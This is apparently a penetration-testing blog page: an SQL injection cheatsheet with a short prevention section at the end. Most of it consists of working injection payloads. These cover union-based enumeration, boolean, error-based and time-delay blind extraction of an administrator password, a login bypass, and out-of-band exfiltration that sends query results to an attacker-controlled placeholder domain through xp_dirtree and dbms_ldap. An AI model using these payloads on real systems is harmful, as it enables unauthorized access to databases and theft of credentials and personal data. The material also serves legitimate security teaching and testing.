 ```yaml
---
title: "SQLi attack"
subtitle: ""
draft: false
author: "Hato0"
description: "SQL injection cheatsheet"
Last Update: <time datetime="{{ .Page.Lastmod.Format "Mon Jan 10 17:13:38 2020 -0700" }}" class="text-muted">  {{ $.Page.Lastmod.Format "January 02, 2006" }} </time>

tags: ["web", "penetest", "sqli"]
categories: ["Penetest - Web"]

hiddenFromHomePage: true
hiddenFromSearch: false
twemoji: false
lightgallery: false
ruby: false
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false
toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
share:
  enable: true
comment:
  enable: true
---
```

# SQL injection 

A SQL injection (SQLi) is a type of security exploit in which the attacker adds Structured Query Language (SQL) code to a Web form input box in order to gain access to unauthorized resources or make changes to sensitive data. 


An SQL query is a request for some action to be performed on a database. When executed correctly, a SQL injection can expose intellectual property, the personal information of customers, administrative credentials or private business details.

## SQLi Basics

Here will be some basics informations to get when you have a successfull injection

- SQL injection attack, querying the database type and version on Oracle
	- Depending on the DB you can get the version as follow:
		- Microsoft, MySQL
		{{< highlight sql "lineNos=false" >}}SELECT @@version{{< /highlight >}}
		- Oracle
		{{< highlight sql "lineNos=false" >}}SELECT * FROM v$version{{< /highlight >}}
		- PostgreSQL
		{{< highlight sql "lineNos=false" >}}SELECT version(){{< /highlight >}}
			
- SQL injection attack, listing the database contents 
	- Non-Oracle DB 
	    {{< highlight sql "lineNos=false" >}}select * from information\_schema.tables{{< /highlight >}}

	- Oracle DB
	    {{< highlight sql "lineNos=false" >}}select * from all_tables{{< /highlight >}}

## Union SQL attack 

These attacks are perform to extract data using the same amount of row than the initial result could display. For this attack, working conditions are:
-   The individual queries must return the same number of columns.
-   The data types in each column must be compatible between the individual queries

You can have those following examples : 

- Determining the number of columns returned by the query :
    - Using `Union` :
        {{< highlight sql "lineNos=false" >}}' union select NULL--{{< /highlight >}} 
        > Increasing number of NULL value until values are actually return
    - Using `Order` :
        {{< highlight sql "lineNos=false" >}}' order by 1--{{< /highlight >}}
        > Increasing the int value until an error occured
		
		
- Finding a column containing text
    {{< highlight sql "lineNos=false" >}}union select 'a', NULL, NULL, ...--{{< /highlight >}}
    > Add as many null as you need to match the number of columns
		
- Retrieving data from other tables
    {{< highlight sql "lineNos=false" >}}union select CHAMP1, CHAMP2, .... from TABLE_NAME--{{< /highlight >}}
    > Again add as many null value as needed
		
		
- Retrieving multiple values in a single column
    {{< highlight sql "lineNos=false" >}}union select CHAMP1 || 'SEPERATOR' || CHAMP2 .... from TABLE_NAME--{{< /highlight >}}
    > Very usefull when you only have the capacity to extract data from a uniq column
		
		

## Blind SQL attack 

- Conditional responses

	The goal here is to exfiltrate char by char fields using for exemple a query looking like this one : 
	{{< highlight sql "lineNos=false" >}}' and (select substring(password,1,1) from users where username='administrator')='a{{< /highlight >}}

- Conditional errors

	The goal here is to check errors based on a True query and on a false one. 
    
    Here is an example:
    - True statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=2) then 1/0 else 'a' end)='a{{< /highlight >}}

    - False statement :
        {{< highlight sql "lineNos=false" >}}' and (select case when (1=1) then 1/0 else 'a' end)='a{{< /highlight >}}
	
	
- Time delays

    This one is the favorite of everyone to quickly check for blind SQL.  
    
    The goal is to insert a sleep function (once or twice to confirm it) and check if there is any latence in the anwser given by the server. 
    If there is one, and if this latence is proportionate to your sleep value, then you know that you've got SQLi. 
    
    Examples : 
	
    - Using `sleep`:
        {{< highlight sql "lineNos=false" >}}';sleep(10)--{{< /highlight >}}
	- Using `waitfor` : 
        {{< highlight sql "lineNos=false" >}}'; if (1=1) waitfor delay '0:0:5'--{{< /highlight >}}
	
- Time delays and information retrieval

	Using the techique right above, we can exfiltrate data based on the time the query take to give a result. We will stick with conditional tested char by char. 

    Here is an example : 
    {{< highlight sql "lineNos=false" >}}
    '; if (select count(username) from users where username = 'administrator' and substring(password, 1, 1) > 'm') = 1 waitfor delay '0:0:5'--{{< /highlight >}}


- Out-of-band (OAST)

    This type of SQLi is perform against asynchronous system. 
    
    The goal here is to trigger out-of-band network. We usually use DNS protocol because that's simplier and available on any system. 
    
    To exfiltrate data we will use conditionals techniques again and more precisely a time delays equivalent. 
    Basicly we will redirect to our controlled domain on True or False condition. 
    
    For example we can perform those :
    - For Microsoft SQL Server	
        - Basic test:
            {{< highlight sql "lineNos=false" >}}'; exec master..xp\_dirtree '//MYDOMAIN/a'--{{< /highlight >}}

		- Data on subdomain:
            {{< highlight sql "lineNos=false" >}}declare @q varchar(1024); set @q = 'master..xp\_dirtree '\\\\' + substring(convert(varchar(max), convert(varbinary(max), user\_name()), 1),1,60) + '.MYDOMAIN\\foo'; exec(@q){{< /highlight >}}

    - MYSQL
        Check for the LOAD\_FILE, sys\_eval, http\_get, .. functions
	   
	- ORACLE
        {{< highlight sql "lineNos=false" >}}select dbms_ldap.init((select version from v$instance)||'.'||(select user from 		dual)||'.'||(select name from 	v$database)||'.'|'MYDOMAIN',80) from 	dual;{{< /highlight >}}


- SQL injection vulnerability allowing login bypass
	* Very simple : `username'--`

## How to prevent them 

If a SQL injection attack is successfully carried out, the damage could be expensive in terms of resources and customer trust. That is why detecting this type of attack in a timely manner is important. Web application firewalls (WAF) are the most common tool used to filter out SQLi attacks. WAFs are based on a library of updated attack signatures and can be configured to flag malicious SQL queries.

In order to prevent a SQL injection attack from occurring in the first place, developers can follow these practices:

-   Avoid SQL statements that allow user input, choose prepared statements and parameterized queries instead.
-   Perform input validation, or sanitization, for user-provided arguments.
-   Do not leave sensitive data in plaintext format, or use encryption.
-   Limit database permissions, privileges and capabilities to the bare minimum.
-   Keep databases updated on security patches.
-   Routinely test the security measures of applications that rely on databases.
-   Remove the display of database error messages to the users.